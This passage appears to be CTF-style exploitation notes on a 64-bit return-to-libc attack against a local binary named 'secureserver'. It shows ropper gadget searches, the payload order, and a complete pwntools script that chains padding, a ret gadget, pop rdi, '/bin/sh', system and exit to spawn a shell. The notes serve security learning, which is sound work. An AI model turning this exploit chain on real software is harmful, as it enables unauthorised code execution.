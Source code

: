 # Ret2Libc 64-bit (Locally)

Similar to 32bits but we need to find the gadget of `pop rdi` and `ret`.

```
$ ropper --file secureserver --search "pop rdi" 
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: secureserver
0x000000000040120b: pop rdi; ret; 


$ ropper --file secureserver --search "ret"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ret

[INFO] File: secureserver
0x0000000000401016: ret; 
```

The exploit is quite similar, but we need to put the payload in the following order:

```
PADDING + RET + POP RDI + /bin/sh + libc.system + libc.exit
```

```python
io = start()

offset = 72
pop_rdi = 0x40120b
ret = 0x401016

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc.address = 0x00007ffff7dc9000

payload = flat(
    asm("nop") * offset,
    ret,
    pop_rdi,
    next(libc.search(b'/bin/sh\x00')),
    libc.symbols.system,
    libc.symbols.exit
)
io.sendlineafter(b':', payload)
io.interactive()
```
# Format String Vulnerability (printf)
